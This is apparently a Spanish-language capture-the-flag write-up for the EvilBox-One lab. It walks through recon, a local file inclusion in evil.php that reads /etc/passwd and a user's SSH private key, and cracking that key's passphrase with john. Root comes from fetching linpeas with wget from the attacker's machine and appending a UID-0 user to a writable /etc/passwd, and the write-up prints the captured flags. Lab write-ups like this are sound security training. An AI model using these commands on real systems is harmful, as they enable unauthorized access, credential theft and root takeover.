

Primero obtenemos nuestra dirección IP para asi realizar un escaneo en la red para identificar la maquina victima.
```
ifconfig
```

Una ves identificada nuestra IP procedemos a identificar maquinas conectadas en la misma red utilizando "netdiscover".
```
sudo netdiscover -r 192.168.0.0/24
```

Una ves obtenido la IP de la maquina victima, procedemos a listar los puertos y servicios expuestos:
- 192.168.0.40    08:00:27:97:79:63      1      60  PCS Systemtechnik GmbH
Utilizando "nmap" podemos descubrir puertos y servicios.
```
sudo nmap -sV -sC 192.168.0.40
```

Descubrimos 2 puertos abiertos el 22 y 80 el cual nos indica que el puerto 22 esta corriendo un servicio ssh y el puerto 80 esta corriendo un servicio web con apache:
- 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Revisamos si contiene alguna paguina web y solo nos muestra el banner de apache:
- http://192.168.0.40/
- 

Vamos a realizar una enumeraciòn de directorio usando "dirb" o "dirsearch" para descubrir directores del servicio, con "dirsearch" descubrimos un archivio "robots.txt" y un directorio "secret":
- http://192.168.0.40/robots.txt
- http://192.168.0.40/secret/
```
sudo dirsearch -u http://192.168.0.40/
```

Revisando la url apuntando a robots.txt nos muestra una paguina con un mensaje " Hello H4x0r ", revisamos còdigo fuente y no se encontro nada màs:
- 
Y revisando el directorio "secret" no encontramos nada:
- 

Recordando que con "dirsearch" nos mostraba un cambio de directorio en secret
- [10:40:36] 301 -  313B  - /secret  ->  http://192.168.0.40/secret/
Por lo que cuando accedes a "/secret" te redirige a "/secret/", a lo cual se cambio de herramienta de enumeraciòn de directorio a "gobuster" ya que "dirsearch" no nos mostro mas informaciòn.

Con "gobuster" buscamos archivos que esten en el directorio "secret/":
```
gobuster dir -u http://192.168.0.40/secret/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php
```
El cual nos muestra un archivo php llamado "evil.php"
- /evil.php             (Status: 200) [Size: 0]

Buscando su còdigo fuente vemos que no contiene nada por lo que intentamos navegar "/etc/passwd" con el LFI(Local File Inclusion) para descubrir màs informaciòn.
utilizando "evil" como query para la busqueda en la url vemos que no funciona eh incluso "file":
- http://192.168.0.40/secret/evil.php?evil=/etc/passwd
Por lo que nos toca realizar un fuzzing para descubrir si podemos obtener el nombre para el parametro de la query utilizando "ffuf":
```
ffuf -u "http://192.168.0.40/secret/evil.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -r -fs 0
```
Nos muestra que la palabra es "command"
- command                 [Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 15ms]

Nos muestra la informacion de usuarios que aparecen en "/etc/passwd"
- mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
- 

Tenemos el nombre del usuario "mowree" el cual nos indica una ruta "/home/mowree/bin/bash", podemos intentar acceder por ssh pero no contamos con una contraseña, se intento de utilizar "H4x0r", "mowree", "evil", "evilboxone" como contraseña pero no funcionò.

Por lo que tenemos una ruta y buscaremos si cuenta con una llave RSA para conectarse por ssh, por default la ruta de las llaves RSA "/home/nombreUsuario/.ssh/id_rsa" y cuando lo agregamos en nuestra busqueda obtenemos la llave:
- http://192.168.0.40/secret/evil.php?command=/home/mowree/.ssh/id_rsa
- [[LLAVE - RSA]]
- 

Guardamos en un archivo llamado "id_rsa" y damos permisos:
```
chmod 600 id_rsa
```

Intentamos ingresar al ssh por RSA, pero necesitamos la frase la cual no sabemos eh intentamos con la informaciòn que hemos recopilado y no funciòna:
```
sudo ssh -i id_rsa mowree@192.168.0.40
[sudo] contraseña para hunter: 

The authenticity of host '192.168.0.40 (192.168.0.40)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.40' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

Por lo que necesitaremos utilizar "ssh2john" para ver si podemos decifrar la palabra clave.
Primero descomprimimos el "rockyou.txt":

```
gunzip rockyou.txt.gz
```

Procedemos a utilizar "ssh2jonh":
```
python3 /usr/share/john/ssh2john.py id_rsa > hash
```

Una ves convertido el RSA A un hash para ataque de fueza bruta para la suite de "john the ripper", procedemos a realizar el ataque de fuerza bruta:
```
sudo john hash --wordlist=rockyou.txt
```
Obtenemos la clave de la frase para el SSH:
- unicorn

Ahora si procedemos a autenticarnos por ssh:
```
sudo ssh -i id_rsa mowree@192.168.0.40
```

Y entramos al SSH:
- 

Entrando como el usuario "mowree" listamos con el comando:
```
ls
```
Podemos ver la flag del usuario llamado "user.txt" y con "cat" mostramos el contenido:
```
cat user.txt
```
Contenido de la flag del usuario:
- 56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
- 

Es hora de elevar privilegios y obtener la flag del usuario root
Usamos "linpeas" es una herramienta de auditoria automatizada que permite recopilar informaciòn de posibles vectores de ataque: https://github.com/peass-ng/PEASS-ng/releases esta basado de bash "./linpeas.sh"

Para subir el archivo "linpeas.sh" al servidor ssh podemos utilizar filezilla o algo màs rapido levantar un servidor con python:
```
python3 -m http.server 8080
```

Procedemos a descargar el archivo en el servidor SSH:
```
wget http://192.168.0.20:8080/linpeas.sh
```
Damos permisos a linpeas Y ejecutamos linpeas:
```
chmod +x linpeas.sh
./linpeas.sh
```

La estructura de "/etc/passwd" esta estructurada de esta manera:
```
<nombre_de_usuario>:<contraseña_encriptada>:<UID>:<GID>:<información_del_usuario>:<directorio_home>:<shell>
```

Que significa cada parte:
- **<nombre_de_usuario>:** 
	- Este es el **nombre de usuario** de la cuenta. Es el nombre que se utiliza para iniciar sesión en el sistema.
- **<contraseña_encriptada>:** 
	- Este campo solía contener la **contraseña en texto plano**, pero en sistemas modernos (especialmente por razones de seguridad), las contraseñas no se almacenan aquí directamente.
- **< UID >:** 
	- Este es el **identificador único** del usuario (User ID). Cada usuario en el sistema tiene un UID único que es utilizado internamente por el sistema.
- **< GID >:** 
	- Este es el **identificador de grupo** (Group ID) del usuario. Es el identificador del grupo principal al que pertenece el usuario.
- **<información_del_usuario>:** 
	- Este campo contiene información adicional sobre el usuario, como su **nombre completo**, dirección, número de teléfono, etc.
- **<directorio_home>:** 
	- Este campo indica el **directorio home** del usuario, que es el directorio personal donde se encuentran los archivos y configuraciones del usuario.
- **< shell >:** 
	- El último campo especifica el **shell predeterminado** que el usuario usará al iniciar sesión. El shell es el programa que proporciona la interfaz de línea de comandos, como Bash, Zsh, etc.

Con linpeas vemos que en su apartado "Interesting writable files owned by me or writable by everyone (not in Home) (max 200)" nos muestra " /etc/passwd " esto quiere decir que el usuario actual tiene permisos de escribir o sobre escribir archivos que estan fuera de su "/home", en este caso el usuario "mowree" puede modificar el "/etc/passwd" y con esto podemos crear un usuario root  para elevar privilegios.

Como ya teniamos informaciòn del "/etc/passwd" copiamos la estructura del usuario root ( root:x:0:0:root:/root:/bin/bash ) y como el usuario "mowree" puede modificar el archivo "/etc/passwd" procedemos a crear un usuario similiar al root:
- echo "tester:$(openssl passwd -6 -salt tester pass123):0:0:tester:/root:/bin/bash" >> /etc/passwd

Donde el "echo" nos manda el texto y ">> /etc/passwd" indicamos que se agregue en el archivo sin eliminar o remplazar lo que ya existe.

Con "$(openssl passwd -6 -salt tester pass123)" indicamos una variable que con "openssl" proceemos a crear una contraseña encriptada:
- openssl passwd: 
	- Es un comando de OpenSSL que genera una versión encriptada de una contraseña.
- -6:
	- Especifica que la contraseña debe ser encriptada usando el algoritmo **SHA-512**, que es uno de los métodos más seguros para almacenar contraseñas de manera cifrada.
- -salt tester:
	- Aquí se especifica un **salt** (sal) para el proceso de encriptación. El **salt** es un valor aleatorio que se agrega a la contraseña antes de cifrarla, lo que hace que las contraseñas encriptadas sean únicas incluso si dos usuarios tienen la misma contraseña.
- pass123:
	- Esta es la **contraseña** en texto claro que se va a encriptar usando el algoritmo SHA-512 con el salt `tester`.

Procedemos a realixar el comando, una ves explicado lo anterior:
```
echo "tester:$(openssl passwd -6 -salt tester pass123):0:0:tester:/root:/bin/bash" >> /etc/passwd
```
Verificamos con un "cat":
```
cat /etc/passwd
```
 Y efectivamente se nos crea nuestro usuario con la contraseña que definimos y de esta manera tenemos una contraseña encriptada y que sea ùnica aunque se repita la contraseña:
 - ester:$6$tester$uxojzWPK39zFliHrdIP1Kre/QxDV2CJv/620uwlWacZ//kcGyIY.WMAIho./HEsDtt7eoai7hVGwkQFSEvFRm.:0:0:tester:/root:/bin/bash

Y ahora si procedemos a cambiarnos de usuario "mowree" al nuevo usuario que creamos con privilegios root "tester"
- tester
- pass123
```
su tester
```

Validamos que seamos root:
```
whoami
```

Y efectivamente somos root, ahora vamos a la carpeta root y capturamos la flag root:
```
cd
```

```
cat root.txt
```

Y este es nuestra flag root:
- 36QtXfdJWvdC0VavlPIApUbDlqTsBM
